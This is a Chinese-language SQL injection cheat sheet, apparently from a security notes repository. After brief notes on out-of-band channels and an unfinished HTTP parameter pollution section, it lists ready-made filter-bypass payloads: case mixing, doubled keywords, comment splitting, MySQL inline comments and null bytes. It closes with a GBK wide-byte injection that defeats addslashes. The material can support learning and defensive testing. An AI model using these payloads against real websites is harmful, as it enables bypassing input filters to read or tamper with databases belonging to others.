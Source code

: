 ## 带外通道注入
带外通道攻击主要是利用其他协议或者渠道从服务器提取数据. 它可能是HTTP（S）请求，DNS解析服务，SMB服务，Mail服务等.


<br>
## HTTP参数污染
待补充

<br><br><br>
# 绕过姿势

## 大小写绕过
`?id=1 Union Select 1,2 #`

## 替换绕过
`?id=1 Ununionion Seselectlect 1,2 #`

## 注释绕过
`?id=1 Uni/**/on Sele/**/ct 1,2 #`

## 特殊嵌入绕过
`?id=1/*!Union*/Select 1,2 #`

## 空字节绕过
`%00' UNION SELECT 1`
某些过滤器在做处理时，遇见空字节会停止进行处理（%00 == 空字节）


## 宽字节绕过

### 原理
以ANSI为编码标准一个汉字占2字节，例如GBK，GB2312（UTF-8 3字节）
当站点的MYSQL使用GBK编码，并且使用`addslashes`来防止SQL注入
当传入参数是`1%df' AND 1=1 %23`时,`'`会被`addslashes`转移为`\'`,而`\`的GBK编码为%5c，`%df%5c`又会被认为是一个汉字，那么最后`'`会被保留。


### 条件
针对于使用以下数据库编码格式和过滤方式的站点
 - `GBK` + `addslashes` or `mysql_real_escape_string`
 - 注意：如果没有指定php连接mysql的字符集，mysql_real_escape_string 是抵御无效的。

### 利用方式
在单引号前面加`%df`,例如`1%df' AND 1=1 %23`
GBK中ASCII码中大于128为汉字所以使用%a1以上的都行，只要组合被认为是汉字。
